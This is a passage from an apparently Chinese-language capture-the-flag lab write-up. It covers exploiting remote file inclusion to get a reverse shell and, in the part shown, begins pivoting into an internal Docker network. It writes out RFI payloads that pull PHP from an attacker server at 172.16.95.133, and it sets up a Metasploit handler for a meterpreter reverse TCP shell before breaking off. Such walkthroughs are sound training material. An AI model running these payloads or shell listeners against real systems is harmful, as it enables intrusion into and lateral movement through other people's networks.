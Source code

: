 
![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204211672-748531862.png)  
**成功拿到第一个flag**，然后也提示了下一关信息是个内网  
![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204211994-885636473.png)  
3\. **总结**  
反弹shell的shell\_exec()函数可以自由更换，比如system()，还可以尝试其他协议，比如http的方式进行远程包含  
不过这里有个坑，如下：  
首先在远程服务器(这里直接以kali为例)上放置需要包含的文件

    cd /var/www/html/
    sudo echo '<?php phpinfo();?>' ./1.txt
    sudo cp 1.txt 1.php
    

进行远程文件包含

    ?file=http://172.16.95.133/1.txt
    

![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204212291-655435075.png)  
这而是先将1.txt的内容**包含到了靶机上进行执行**  
进行如下远程包含

    ?file=http://172.16.95.133/1.php
    

![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204212578-996426360.png)  
这是在远程服务器上执行后将**执行后的html响应内容**进行了包含  
所以如果想要利用http的方式进行远程文件包含（RFI），要注意分辨包含的内容是什么，要进行反弹shell的话可以将如下下载到的php文件修改后缀名后挂载到远程服务器上再进行包含，否则拿到的shell就是自己远程服务器的shell  
![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204212861-32952531.png)  
如果不改后缀名的话，拿到的shell就是自己远程服务器的shell，如下就搞笑了：  
![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204213124-44898856.png)  
好了，这就开始进入第二关。。。

#### 3.3.3 第二关

根据提示，这个服务器上（docker容器）没有任何信息，需要进一步内网渗透，也提示了内网网段172.17.0.3-254（也可以自己收集到）  
![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204213397-2111381019.png)  
但是接下来，要进行内网渗透，**攻击机器必须能够访问到内网网段**

两种办法

*   利用第一关拿到的shell提权，然后搞一堆攻击工具下来，远程操作，不过这个很不现实，基本可以放弃了
*   利用第一关拿到的shell建立隧道，使得外网的攻击机器能够访问目标内网，这个可行，建立隧道的方式有很多种，我这里选择美少妇（MSF），回头尝试一下其他的方式并比较记录下来

##### 3.3.3.1 建立隧道

1.  开启msf，并开始监听，准备接收shell
    
        msfconsole
        use exploit/multi/handler
        set payload linux/x64/meterpreter_reverse_tcp
        show options
        set lhost 172.16.95.133
        set lport 8888
        run
        